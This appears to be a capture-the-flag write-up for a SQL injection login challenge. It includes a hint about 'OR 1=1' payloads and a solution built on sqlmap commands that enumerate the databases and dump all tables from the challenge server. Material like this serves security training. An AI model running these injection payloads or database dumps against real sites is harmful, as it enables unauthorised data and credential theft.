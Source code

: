 # Web

## SQL Injection Login

Please open [this site](http://178.128.112.149/9_medium)

You are given access to a system with a login mechanism. It is known that this system is vulnerable to SQL Injection attacks. Your task is to get the password from the admin account stored in the database. How can you do this? And you are only given user account access.

username: user
pass: linux123

Hint: Note that in SQL, an expression like 'OR 1=1' will always evaluate to true. Can you create a payload and insert it into the username input to exploit this vulnerability?

---

### Solution

`$ sqlmap -u "http://178.128.112.149/9_medium/login.php" --dbms="MySQL" --data="username=admin&password=linux123" --dbs`

```
available databases [3]:
[*] db_9_medium
[*] information_schema
[*] performance_schema
```

`$ sqlmap -u "http://178.128.112.149/9_medium/login.php" --dbms="MySQL" --data="username=admin&password=linux123" -D db_9_medium --dump-all --batch`

![DUMP](https://media.discordapp.net/attachments/758115188796162088/1152450340361351198/image.png?width=1920&height=300)


>BPJS{bc5fa5f8e281d432da8af5adec8a13bb}